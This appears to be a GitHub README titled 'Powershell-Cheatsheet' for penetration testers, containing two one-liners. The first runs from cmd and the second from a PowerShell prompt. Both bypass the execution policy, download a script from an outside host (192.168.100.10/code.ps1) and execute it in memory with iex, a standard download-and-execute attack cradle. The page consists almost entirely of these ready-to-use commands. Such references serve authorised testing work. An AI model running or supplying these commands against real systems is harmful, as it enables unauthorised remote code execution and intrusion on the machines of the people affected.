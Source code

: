 # Powershell-Cheatsheet
Hand list of Powershell commands frequently used during penetration tests


## Execute Remote Powershell from windows command prompt

```cmd
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))" && SET "PATH=%PATH%;%ALLUSERSPROFILE%\code\"
```

## Execute Remote Powershell from Powershell prompt

```Powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))
```
